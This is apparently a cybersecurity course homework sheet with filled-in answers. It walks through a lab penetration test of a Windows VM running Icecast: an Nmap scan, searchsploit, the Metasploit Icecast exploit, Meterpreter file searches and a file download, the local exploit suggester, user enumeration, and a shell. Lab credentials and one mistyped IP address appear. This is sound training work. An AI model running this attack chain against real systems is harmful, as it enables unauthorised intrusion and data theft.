 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit Icecast

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer:search Icecast
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: USE 0
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.09.20
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile.txt
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe.txt
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
     > Answer: run post/multi/recon/local_exploit_suggester
 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
 
     
B. Open a Meterpreter shell. 
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

